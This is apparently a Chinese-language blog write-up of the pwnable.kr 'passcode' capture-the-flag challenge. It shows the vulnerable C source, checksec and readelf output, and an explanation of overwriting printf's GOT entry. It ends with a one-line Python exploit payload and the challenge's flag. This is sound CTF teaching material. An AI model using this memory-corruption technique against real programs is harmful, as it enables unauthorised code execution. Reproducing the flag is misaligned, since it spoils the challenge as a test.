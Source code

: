 ```yaml
---
layout: post
title: "pwnable.kr passcode"
date: 2018-07-10 
tag: pwn Writeup pwnable.kr
---
```


> Mommy told me to make a passcode based login system.  
> My initial C code was compiled without any error!  
> Well, there was some compiler warning, but who cares about that?  
>
> ssh passcode@pwnable.kr -p2222 (pw:guest)  

源代码如下：

```c
#include <stdio.h>
#include <stdlib.h>

void login(){
    int passcode1;
    int passcode2;

    printf("enter passcode1 : ");
    scanf("%d", passcode1);
    fflush(stdin);

    // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
    printf("enter passcode2 : ");
        scanf("%d", passcode2);

    printf("checking...\n");
    if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
        exit(0);
        }
}

void welcome(){
    char name[100];
    printf("enter you name : ");
    scanf("%100s", name);
    printf("Welcome %s!\n", name);
}

int main(){
    printf("Toddler's Secure Login System 1.0 beta.\n");

    welcome();
    login();

    // something after login...
    printf("Now I can safely trust you that you have credential :)\n");
    return 0;
}
```

我们可以很明显的看见 login() 函数中 scanf() 写错了。`scp -P 2222 passcode@pwnable.kr:passcode ./` 把二进制文件down下来看了看发现 passcode1 就是 name[] 的最后4个字节。因此我们有了一次向任意地址写入4 bytes的机会。

![img_1](/images/posts/pwnable.kr/passcode_1.png)
![img_2](/images/posts/pwnable.kr/passcode_2.png)

用 checksec 查看一下保护。

```shell
root@ubuntu:~# checksec passcode
[*] '/root/passcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

现在我的想法是通过修改GOT表来控制EIP，GOT表的相关知识可以看看我写的[GOT与PLT](https://demonsin.github.io/2018/06/GOT%E4%B8%8EPLT/)。

我们将目标代码 `system("/bin/cat flag");` 的地址覆盖掉GOT表中 printf() 的地址。这样接下来调用 printf() 时就会跳到目标代码去了。

用 `readelf -r passcode` 看见 printf() 在 GOT表中的地址为 0x0804a000。在 IDA 中看到目标地址为 0x080485E3，即十进制的 134514147。

```shell
root@ubuntu:~# readelf -r passcode

Relocation section '.rel.dyn' at offset 0x388 contains 2 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
08049ff0  00000606 R_386_GLOB_DAT    00000000   __gmon_start__
0804a02c  00000b05 R_386_COPY        0804a02c   stdin@GLIBC_2.0

Relocation section '.rel.plt' at offset 0x398 contains 9 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   printf@GLIBC_2.0
0804a004  00000207 R_386_JUMP_SLOT   00000000   fflush@GLIBC_2.0
0804a008  00000307 R_386_JUMP_SLOT   00000000   __stack_chk_fail@GLIBC_2.4
0804a00c  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
0804a010  00000507 R_386_JUMP_SLOT   00000000   system@GLIBC_2.0
0804a014  00000607 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a018  00000707 R_386_JUMP_SLOT   00000000   exit@GLIBC_2.0
0804a01c  00000807 R_386_JUMP_SLOT   00000000   __libc_start_main@GLIBC_2.0
0804a020  00000907 R_386_JUMP_SLOT   00000000   __isoc99_scanf@GLIBC_2.7
```

![img_3](/images/posts/pwnable.kr/passcode_3.png)

exp: `python -c "print 'A' * 96 + '\x00\xa0\x04\x08' + '134514147\n'" | ./passcode`

flag: Sorry mom.. I got confused about scanf usage :(